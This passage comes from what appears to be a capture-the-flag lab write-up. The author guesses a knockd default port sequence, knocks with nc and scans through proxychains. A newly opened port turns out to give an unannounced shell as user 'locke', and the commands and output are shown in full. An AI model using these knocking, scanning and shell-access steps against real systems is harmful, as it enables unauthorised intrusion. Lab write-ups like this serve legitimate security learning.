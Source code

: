 Only `tcp/22`. :s

I started working back a little bit to some of the previous machines in search for clues, but, found nothing concrete. Remembering the port knocking daemon used in [Knock Knock](http://vulnhub.com/entry/knock-knock-11,105/) (`knockd`), I went and searched for its configuration file, looking for the default port sequence it is configured with. I found the config file [here](https://github.com/jvinet/knock/blob/master/knockd.conf), which revealed the default sequence of: `7000,8000,9000`. So, I tested this by attempting to connect with `nc` to these ports on **192.168.4.100**, and following up with a nmap:

```bash
terra@dev2:~$ nc -v 192.168.4.100 7000 -w 1; nc -v 192.168.4.100 8000 -w 1; nc -v 192.168.4.100 9000 -w 1
192.168.4.100: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [192.168.4.100] 7000 (afs3-fileserver) : Connection refused
192.168.4.100: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [192.168.4.100] 8000 (?) : Connection refused
192.168.4.100: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [192.168.4.100] 9000 (?) : Connection refused
terra@dev2:~$
```

The nmap after the knock:

```bash
root@kali:~# proxychains nmap -sT 192.168.4.100
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 6.46 ( http://nmap.org ) at 2014-11-09 17:45 SAST
Nmap scan report for 192.168.4.100
Host is up (0.0015s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
1111/tcp open  lmsocialserver

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds

```

A new port! `tcp/1111` :) Lets check it out.

```bash
root@kali:~# proxychains nc 192.168.4.100 1111
ProxyChains-3.1 (http://proxychains.sf.net)

# a new connection has no output. Only after typing
# 'crap' do you realise you have a sh session open
  
id
uid=1000(locke) gid=1000(locke) groups=1000(locke)
```

Shell access as `locke` on **192.168.4.100**. Nice :D To help me ensure I can comprehend where I am in the network, consider the following diagram, which is turning into a mess thanks to how deep this whole is... The new connection denoted in red again:
